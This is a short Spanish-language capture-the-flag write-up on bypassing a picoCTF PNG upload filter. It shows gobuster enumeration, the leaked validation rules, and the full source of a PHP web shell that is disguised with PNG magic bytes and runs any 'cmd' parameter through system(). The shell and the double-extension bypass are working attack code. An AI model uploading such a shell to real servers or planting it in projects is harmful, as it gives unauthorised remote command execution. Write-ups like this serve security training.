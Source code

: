 # Retos CTF web

## Bypass file upload PNG

1º Vamos a reconocer si hay algun directorio donde se suban los ficheros utilizamos gobuster

```ruby
gobuster dir -u http://atlas.picoctf.net:<port>/ -w /usr/share/dirb/wordlists/big.txt
```

Nos encuentra lo siguiente:
```ruby
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 285]
/.htaccess            (Status: 403) [Size: 285]
/robots.txt           (Status: 200) [Size: 62]
/server-status        (Status: 403) [Size: 285]
/uploads              (Status: 301) [Size: 333] [--> http://atlas.picoctf.net:63586/uploads/]                                                             
Progress: 20469 / 20470 (100.00%)
```

Sabemos que tenemos un directorio donde se almacena los ficheros que subimos y vemos que hay un /robots.txt

```ruby
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

si vemos el fichero de intructions.txt nos encontramos lo siguiente

```ruby
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

Tiene que aparecer un PNG al principio y además tiene que estar en formato `.png`

Creo el siguiente fichero `shell.png.php`

```HTML
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

Nos da un acceso a una shell interctiva.





